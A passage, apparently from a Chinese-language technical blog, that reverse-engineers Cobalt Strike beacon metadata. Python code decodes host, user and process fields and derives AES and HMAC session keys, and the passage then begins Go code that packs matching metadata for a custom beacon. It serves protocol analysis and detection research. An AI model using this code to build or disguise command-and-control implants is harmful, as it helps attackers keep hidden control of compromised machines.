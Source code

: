         # if ("x64".equals(this.barch)) {    # this.ptr_gmh = CommonUtils.join(var10, this.ptr_gmh)    # this.ptr_gpa = CommonUtils.join(var10, this.ptr_gpa)    # }    #    # this.ptr_gmh = CommonUtils.bswap(this.ptr_gmh)    # this.ptr_gpa = CommonUtils.bswap(this.ptr_gpa)  
        # 4    intz = ciphertext[55:59]    intz = int.from_bytes(intz, byteorder='little', signed=False)    intz = toIP(intz)  
        if intz == "0.0.0.0":        intz = "unknown"    print("host:" + intz)  
        if var9 == None:        ddata = ciphertext[59:len(ciphertext)].decode("ISO8859-1")    else:        # ??x-mswin-936        # ddata = ciphertext[59:len(ciphertext)].decode(var9)        ddata = ciphertext[59:len(ciphertext)].decode("ISO8859-1")  
        ddata = ddata.split("\t")    if len(ddata) > 0:        computer = ddata[0]    if len(ddata) > 1:        username = ddata[1]    if len(ddata) > 2:        process = ddata[2]  
        print("PC name:" + computer)    print("username:" + username)    print("process name:" + process)  
        raw_aes_hash256 = hashlib.sha256(raw_aes_keys)    digest = raw_aes_hash256.digest()    aes_key = digest[0:16]    hmac_key = digest[16:]  
        print("AES key:{}".format(aes_key.hex()))    print("HMAC key:{}".format(hmac_key.hex()))  
        print(hexdump.hexdump(ciphertext))

  
 **验证解析 ****  
**我们使用cobaltstrike新建一个http的监听，执行上线，然后使用wareshark抓取返回的数据。
![](https://gitee.com/fuli009/images/raw/master/public/20220218134443.png)  
解析后的结果如下：  
  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134445.png)  
其中的AES key用来加解密后续此beacon的task任务，HAMC用来验证task任务返回数据的正确性。  
 **封包 ****  
**根据cobaltstrike的解析源数据的过程，我们得到metadata源数据的格式如下：  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134446.png)  
我们用golang来实现的对应的封装源数据的过程，如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func MakeMetaInfo() []byte {  
        clientIDBytes := make([]byte, 4)    binary.BigEndian.PutUint32(clientIDBytes, uint32(config.ClientID))  
        processID := sysinfo.GetPID()    processIDBytes := make([]byte, 4)    binary.BigEndian.PutUint32(processIDBytes, uint32(processID))  
        port := 22    sshPortBytes := make([]byte, 2)    binary.BigEndian.PutUint16(sshPortBytes, uint16(port))  
        metadataFlag := sysinfo.GetMetaDataFlag()    flagBytes := make([]byte, 1)    flagBytes[0] = byte(metadataFlag)  
        //for OS Version    osVersion := sysinfo.GetOSVersion()    osVerSlice := strings.Split(string(osVersion), ".")    osMajorVerison := 0    osMinorVersion := 0    osBuild := 0    if len(osVerSlice) == 3 {        osMajorVerison, _ = strconv.Atoi(osVerSlice[0])        osMinorVersion, _ = strconv.Atoi(osVerSlice[1])        osBuild, _ = strconv.Atoi(osVerSlice[2])    } else if len(osVerSlice) == 2 {        osMajorVerison, _ = strconv.Atoi(osVerSlice[0])        osMinorVersion, _ = strconv.Atoi(osVerSlice[1])    }    majorVerBytes := make([]byte, 1)    minorVerBytes := make([]byte, 1)    buildBytes := make([]byte, 2)    majorVerBytes[0] = byte(osMajorVerison)    minorVerBytes[0] = byte(osMinorVersion)    binary.BigEndian.PutUint16(buildBytes, uint16(osBuild))  
        ptrGMHGPA := 0    ptrGMHGPABytes := make([]byte, 4)    binary.BigEndian.PutUint32(ptrGMHGPABytes, uint32(ptrGMHGPA))  
        ptrGMHFuncAddr := 0    ptrGMHBytes := make([]byte, 4)    binary.BigEndian.PutUint32(ptrGMHBytes, uint32(ptrGMHFuncAddr))  
        ptrGPAFuncAddr := 0    ptrGPABytes := make([]byte, 4)    binary.BigEndian.PutUint32(ptrGPABytes, uint32(ptrGPAFuncAddr))  